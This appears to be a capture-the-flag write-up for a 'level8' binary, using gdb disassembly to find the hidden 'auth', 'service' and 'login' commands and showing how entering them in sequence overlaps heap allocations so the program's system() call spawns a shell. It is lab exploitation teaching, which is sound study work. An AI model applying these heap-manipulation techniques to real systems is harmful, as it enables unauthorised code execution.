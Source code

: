 ## level8
In `level8` as opposed to the others the call to `system()` is inside the `main()` function, running the program will make it print *nil nil* and when we try to disassembly the program the disassembled code it's huge comparing to the others, so going through it with __gdb__ will show  some texts that we could think to be the inputs to pass to this program<br>
```
0x080485c1 <+93>:	mov    eax,0x8048819
(gdb) x/s 0x8048819
0x8048819:	 "auth "
```
Righ after this I was faced with some *assembly code* that looks very weird to me *(probably because I don't speack it very well)*
```
0x080485cf <+107>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
0x080485d1 <+109>:	seta   dl
0x080485d4 <+112>:	setb   al
```
After some search  I could find this [SO-POST](https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb/44630741) that could clarify some parts and made me understand that it was comparing a string character by charater,<br> *why bother? why not just call `strcmp`?* maybe to try to make it more complicated ? and there are also a bunch of *flags* being set in this way of doing the comparasion.<br> The next string we will find in the dissableded code:
```
=> 0x08048642 <+222>:	lea    eax,[esp+0x20]
   0x08048646 <+226>:	mov    edx,eax
   0x08048648 <+228>:	mov    eax,0x804881f
   0x0804864d <+233>:	mov    ecx,0x5
   0x08048652 <+238>:	mov    esi,edx
   0x08048654 <+240>:	mov    edi,eax
   0x08048656 <+242>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>:	seta   dl
   0x0804865b <+247>:	setb   al
   
(gdb) x/s 0x804881f
0x804881f:	 "reset"
```
And the next
```
   0x0804867e <+282>:	mov    eax,0x8048825
   0x08048683 <+287>:	mov    ecx,0x6
   0x08048688 <+292>:	mov    esi,edx
   0x0804868a <+294>:	mov    edi,eax
   0x0804868c <+296>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>:	seta   dl
   0x08048691 <+301>:	setb   al
   
(gdb) x/s 0x8048825
0x8048825:	 "service"
```
And the last one
```
   0x080486bb <+343>:	mov    eax,0x804882d
   0x080486c0 <+348>:	mov    ecx,0x5
   0x080486c5 <+353>:	mov    esi,edx
   0x080486c7 <+355>:	mov    edi,eax
   0x080486c9 <+357>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>:	seta   dl
   0x080486ce <+362>:	setb   al
   
(gdb) x/s 0x804882d
0x804882d:	 "login"
```
To get the flag in this level you have to login as ``` `auth ` ``` the `' '` at the end of `auth` is important after this you will see the start __address__ where the string *`auth `* is put
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
```
After this we have two options, we can either enter *service plus any number greater than 15 (memory alignment)
```
service AAAAAAAAAAAAAAA OR service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$
``` 
or we can enter
```
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$
```
At the beginig of the program we can see a call to `malloc()` and the __address__:
```
 0x080485eb <+135>:	call   0x8048470 <malloc@plt>
 0x080485f0 <+140>:	mov    ds:0x8049aac,eax
```
This __address__ `0x8049aac` will be shared by *`auth `* and *`service`* then at the end of the program just before the `system()` call we will see this __address__ again
```
=> 0x080486e2 <+382>:	mov    eax,ds:0x8049aac
   0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
   0x080486ea <+390>:	test   eax,eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	mov    DWORD PTR [esp],0x8048833
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
```
and if we check this address we will recognize it from the command line:
```
(gdb) x/4xw 0x8049aac
0x8049aac <auth>:	0x0804a008	0x0804a028	0x00000000	0x00000000
```
We can see that is this address that we are writing to when we enter ``` `auth ` ``` and `service` as the arguments to the program, we can see from the snippet above that the prgram is loading this __address__ to the register `eax` and then adding `0x20` to it:

|Address|
|0x8049aac| =| 0x0804a008|
|0x0804a008|+| 0x20|
|0x0804a028|

